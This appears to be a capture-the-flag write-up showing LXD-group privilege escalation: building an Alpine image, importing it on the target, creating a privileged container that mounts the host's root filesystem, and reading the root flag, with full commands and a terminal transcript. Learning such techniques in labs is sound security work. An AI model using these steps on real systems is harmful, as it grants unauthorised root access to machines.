 ```yaml
cd $HOME/go/src/github.com/lxc/distrobuilder
make
cd
#Prepare the creation of alpine
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
#Create the container
sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.8

##Copy those files to your Kali server for upload to the target
```

Then, upload to the vulnerable server the files **lxd.tar.xz** and **rootfs.squashfs**

##Use python http server to host the files and WGET to pull them over

Add the image:

```yaml
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
lxc image list #You can see your new imported image
```

Create a container and add root path

```yaml
lxc init alpine privesc -c security.privileged=true
lxc list #List containers

lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

Execute the container:

```yaml
lxc start privesc
lxc exec privesc /bin/sh
cd /mnt/root/root
id
#Here is where the filesystem is mounted and we can see we are root
```

#this is what it looks like when you run the commands

```yaml
mike@included:~$ lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
mike@included:~$ lxc init alpine privesc -c security.privileged=true
lxc init alpine privesc -c security.privileged=true
Creating privesc
mike@included:~$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
<st-root disk source=/ path=/mnt/root recursive=true
Device host-root added to privesc
mike@included:~$ lxc start privesc
lxc start privesc
mike@included:~$ lxc exec privesc /bin/sh
lxc exec privesc /bin/sh
~ # ^[[21;5Rcd /mnt/root/root
cd /mnt/root/root
/mnt/root/root # ^[[21;18Rls
ls
login.sql  root.txt
/mnt/root/root # ^[[21;18Rcat root.txt
cat root.txt
c693d9c7499d9f572ee375d4c14c7bcf
/mnt/root/root # ^[[21;18Rid
id
```